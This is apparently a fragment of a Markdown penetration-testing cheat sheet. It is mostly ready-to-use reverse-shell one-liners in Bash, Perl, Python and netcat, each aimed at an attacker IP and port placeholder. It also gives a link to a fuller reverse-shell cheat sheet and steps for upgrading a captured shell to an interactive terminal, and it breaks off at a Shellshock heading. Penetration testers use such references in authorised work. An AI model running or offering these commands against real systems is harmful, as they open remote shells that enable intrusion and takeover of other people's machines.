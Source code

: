 ```
bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
```

### Perl

```
perl -e 'use Socket;$i="<IP>";$p=<PORT>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### Python

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",<PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### Netcat

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <PORT> >/tmp/f
```

### More reverse shell

```
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
```

### Interactive shell

```
python -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'

echo os.system('/bin/bash')
```

### Adjust Interactive shell

```
Ctrl-Z
echo $TERM    //find term
stty raw -echo  //disable shell echo
fg
reset
export SHELL=bash
export TERM=xterm
```

------

## SHELLSHOCK
